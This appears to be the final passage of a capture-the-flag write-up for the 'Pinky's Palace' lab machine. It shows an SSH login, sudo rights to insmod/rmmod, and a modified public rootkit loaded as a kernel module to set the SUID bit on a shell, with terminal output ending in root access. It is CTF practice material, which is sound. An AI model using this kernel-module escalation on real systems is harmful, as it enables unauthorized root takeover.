 ```bash  
$ id  
uid=1000(pinky) gid=1002(pinksecmanagement) groups=1002(pinksecmanagement)  
```  
  
  
pinky  
-----  
```bash  
root@kali:~/panther# ssh -p 5555 pinky@192.168.0.74 -i id_rsa  
Linux pinkys-palace 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
Last login: Tue May 15 04:32:07 2018 from 172.19.19.251  
pinky@pinkys-palace:~$  
```  
We're almost at the finish line!  In the `pinky` user we find two sudo permissions. 
```bash
pinky@pinkys-palace:~$ sudo -l  
Matching Defaults entries for pinky on pinkys-palace:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User pinky may run the following commands on pinkys-palace:  
(ALL) NOPASSWD: /sbin/insmod  
(ALL) NOPASSWD: /sbin/rmmod  
```  
These allow us to add and remove kernel modules, which obviously would give us full control of the kernel.  There are a tonne of rootkits out there that would enable you to get full system privileges, but something simple is much nicer.  There is a nice rootkit on (Pink Panther's github)[https://github.com/PinkP4nther/Pinkit], which I shamelessly stole but made a small alteration.  Instead of tcp shell, I just made it give SUID permissions to a custom program which spawns `/bin/bash`.
  
```bash  
chown root:root /tmp/shell; chmod u+s /tmp/shell  
```  
We can see the full exploit process here, as the exploit is run at module load time.
```bash  
pinky@pinkys-palace:~/pinkit$ ls -la /tmp/shell  
-rwxr-xr-x 1 pinky pinky 7540 May 28 11:39 /tmp/shell  
pinky@pinkys-palace:~/pinkit$ sudo insmod pinkit.ko  
pinky@pinkys-palace:~/pinkit$ ls -la /tmp/shell  
-rwsr-xr-x 1 root root 7540 May 28 11:39 /tmp/shell  
pinky@pinkys-palace:~/pinkit$ /tmp/shell  
ID: 0  
# id  
uid=0(root) gid=1000(pinky) groups=1000(pinky),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)  
```

And there we have it!

![](https://pbs.twimg.com/media/DeQM_peWAAAgJov.jpg:large)

Many thanks to [@Pink_P4nther](https://twitter.com/@Pink_P4nther), a very well designed box.
